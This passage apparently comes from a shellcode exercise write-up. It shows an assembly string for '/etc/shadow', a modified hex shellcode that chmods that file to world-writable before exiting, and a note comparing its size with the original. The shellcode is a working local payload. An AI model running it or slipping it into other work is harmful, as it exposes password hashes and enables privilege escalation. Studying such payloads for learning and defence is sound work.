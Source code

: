 ```
	shell: db '/etc/shadow'
```

Modified shellcode:

	\xeb\x15\x90\x90\x5b\x31\xc9\xf7\xe0\x51\xb0\x0f\x89\xdc\x66\xb9\xff\x01\xcd\x80\x40\xcd\x80\xe8\xe8\xff\xff\xff\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77

Even with the 2 NOPs the final shellcode is approximatley **118%** of the original one.
